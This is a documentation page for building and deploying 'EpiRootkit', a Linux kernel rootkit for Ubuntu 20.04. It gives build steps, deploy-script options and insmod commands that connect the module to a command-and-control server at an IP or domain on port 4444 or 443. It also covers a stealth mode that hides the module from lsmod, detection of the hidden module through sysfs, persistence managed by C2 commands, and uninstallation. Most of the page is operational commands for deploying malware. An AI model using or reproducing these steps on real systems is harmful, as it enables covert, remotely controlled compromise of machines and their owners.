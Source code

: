 ```yaml
---
title: "Build & Deployment"
description: "How to build and load EpiRootkit on Ubuntu 20.04"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 502
---
```




## Requirements

### System
- **OS**: Ubuntu 20.04 LTS
- **Kernel**: 5.4.0-* (check with `uname -r`)

### Dependencies
```bash
sudo apt update
sudo apt install -y build-essential linux-headers-$(uname -r)
```


## Build

### Using Deploy Script (Recommended)
```bash
# Build rootkit using main deployment script
./deploy_c2.sh --rootkit
```

### Manual Build
```bash
cd rootkit
make clean && make
# ✓ Build successful: epirootkit.ko created
```

## Deployment

### Deployment Script

```bash
# Basic deployment (uses ./epirootkit.ko automatically)
cd rootkit
sudo ./deploy_rootkit.sh

# Custom C2 server
sudo ./deploy_rootkit.sh -a 192.168.200.11 -p 4444

# Domain-based deployment  
sudo ./deploy_rootkit.sh -a c2.example.com

# Custom module file
sudo ./deploy_rootkit.sh -m /path/to/epirootkit.ko
```

### Deployment Commands
| Command | Description |
|---------|-------------|
| `deploy` | Install and load module (default) |
| `status` | Check current module status |
| `uninstall` | Remove module completely |
| `help` | Show detailed help |

### Deployment Options
| Option | Description |
|--------|-------------|
| `-m, --module FILE` | Specify module file (default: ./epirootkit.ko) |
| `-a, --address ADDR` | C2 server address (default: 192.168.200.11) |
| `-p, --port PORT` | C2 server port (default: 4444) |
| `-h, --help` | Show help message |

### Advanced Usage
```bash
# Custom deployment with domain
sudo ./deploy_rootkit.sh -a c2.example.com -p 443

# Check deployment status
sudo ./deploy_rootkit.sh status
# Module is loaded and visible
# OR: Module is loaded and hidden (stealth mode active)

# Remove deployment
sudo ./deploy_rootkit.sh uninstall
# Module uninstalled
```

### Manual Loading (Alternative)
```bash
# Load with domain  
sudo insmod epirootkit.ko address=c2.example.com

# Load with IP and port
sudo insmod epirootkit.ko address=192.168.200.11 port=4444

# Load with defaults from config
sudo insmod epirootkit.ko
```

## Module Status Detection

The deployment script can detect module status even when hidden:

### Status Checking
- **Visible module**: Detected via `lsmod` output
- **Hidden module**: Detected via sysfs interface `/sys/kernel/epirootkit/control`
- **Not loaded**: No traces found in either location

## Management

### Check Status
```bash
cd rootkit
sudo ./deploy_rootkit.sh status
# Module is loaded and visible
# OR: Module is loaded and hidden (stealth mode active)
```

### Default Behavior
- **Module file**: Uses `./epirootkit.ko` by default
- **C2 address**: Uses `192.168.200.11:4444` by default  
- **Installation**: Module copied to `/lib/modules/$(uname -r)/extra/`
- **Persistence**: Managed through C2 commands after connection

### Complete Removal
```bash
cd rootkit
sudo ./deploy_rootkit.sh uninstall
# Module removed from memory
# Module removed from system
# Module uninstalled
```

**Domain Support**: The rootkit supports both domain names and IP addresses. For DNS resolution details, see [DNS Resolution](./features/dns-resolution.md).